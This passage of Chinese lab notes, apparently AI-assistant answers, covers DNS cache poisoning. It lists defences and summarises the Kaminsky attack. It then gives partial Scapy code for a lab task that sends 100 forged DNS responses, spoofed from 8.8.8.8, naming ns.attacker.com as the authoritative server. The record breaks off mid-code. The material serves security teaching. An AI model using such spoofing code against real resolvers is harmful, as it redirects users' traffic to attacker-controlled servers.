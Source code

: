 2. DNSSEC

   ：

   - 使用 DNS 安全扩展（DNSSEC）对 DNS 响应进行签名验证，防止伪造。

3. 限制缓存时间

   ：

   - 减少缓存的生存时间（TTL），降低被毒害后的影响时间。

------

### **总结**

Kaminsky 攻击通过巧妙利用 DNS 的缓存机制和并发查询技巧，实现了高效的远程 DNS 缓存中毒。这种攻击方式曾是一个重要的安全漏洞，促使 DNS 系统加速升级和引入 DNSSEC。

如果你需要进一步细化某个步骤或更多技术细节，请随时告诉我！

![image-20241204205359357](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20241204205359357.png)

### **Q9 解答指南**

Q9 的任务是完成 `remote_dns.py` 的 **Step 3**，实现伪造 DNS 响应包并向目标 DNS 服务器发送大约 100 个伪造的响应包。以下是完成任务的详细步骤：

------

### **任务目标**

1. **每个伪造包包含随机生成的 `transactionID`**。
2. **在权威部分 (`Authority Section`) 添加伪造的恶意 DNS 服务器 (`ns.attacker.com`)**。
3. **在附加部分 (`Additional Section`) 指定 `ns.attacker.com` 的 IP 地址为攻击者 IP (`10.10.10.X`)**。

------

### **实现步骤**

#### **1. 修改 `remote_dns.py` 中的 Step 3**

在脚本的 **Step 3** 中完成伪造 DNS 响应包的逻辑，代码示例如下：

```python
from scapy.all import *
import random

# 配置目标和攻击者信息
target_dns_ip = "10.10.10.53"  # 目标 DNS 服务器的 IP 地址
attacker_ip = "10.10.10.X"     # 攻击者的 IP 地址
query_domain = "random.test.com"  # 被攻击的域名

# Step 3: 发送伪造的 DNS 响应包
def send_forged_dns_responses():
    for _ in range(100):  # 发送 100 个伪造包
        # 随机生成 transactionID
        transaction_id = random.randint(0, 65535)

        # 构造 IP 层
        ip_layer = IP(src="8.8.8.8", dst=target_dns_ip)

        # 构造 UDP 层
        udp_layer = UDP(sport=53, dport=33333)

        # 构造 DNS 层
        dns_layer = DNS(
            id=transaction_id,  # 随机 transactionID
            qr=1,               # 响应
            aa=1,               # 权威回答
```